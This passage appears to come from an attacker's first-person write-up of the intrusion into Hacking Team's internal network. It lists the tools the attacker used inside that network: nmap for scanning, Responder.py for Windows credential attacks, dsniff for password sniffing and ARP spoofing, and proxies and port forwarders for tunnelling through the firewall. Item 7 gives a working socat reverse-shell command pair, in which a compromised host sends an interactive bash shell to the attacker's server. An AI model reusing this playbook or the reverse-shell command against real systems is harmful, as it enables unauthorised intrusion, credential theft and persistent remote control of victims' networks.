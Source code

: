 1) busybox

   For all the standard Unix utilities that the system didn't have.

2) nmap

   To scan and fingerprint Hacking Team's internal network.

3) Responder.py

   The most useful tool for attacking windows networks when you have access to
   the internal network, but no domain user.

4) Python

   To execute Responder.py

5) tcpdump

   For sniffing traffic.

6) dsniff

   For sniffing passwords from plaintext protocols like ftp, and for
   arpspoofing. I wanted to use ettercap, written by Hacking Team's own ALoR
   and NaGA, but it was hard to compile it for the system.

7) socat

   For a comfortable shell with a pty:
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane \
		  tcp:my_server:my_port

   And useful for a lot more, it's a networking swiss army knife. See the
   examples section of its documentation.

8) screen

   Like the shell with pty, it wasn't really necessary, but I wanted to feel
   at home in Hacking Team's network.

9) a SOCKS proxy server

   To use with proxychains to be able to access their local network from any
   program.

10) tgcd

   For forwarding ports, like for the SOCKS server, through the firewall.

[1] https://www.busybox.net/
[2] https://nmap.org/
[3] https://github.com/SpiderLabs/Responder
[4] https://github.com/bendmorris/static-python
[5] http://www.tcpdump.org/
[6] http://www.monkey.org/~dugsong/dsniff/
[7] http://www.dest-unreach.org/socat/
[8] https://www.gnu.org/software/screen/
[9] http://average-coder.blogspot.com/2011/09/simple-socks5-server-in-c.html
[10] http://tgcd.sourceforge.net/
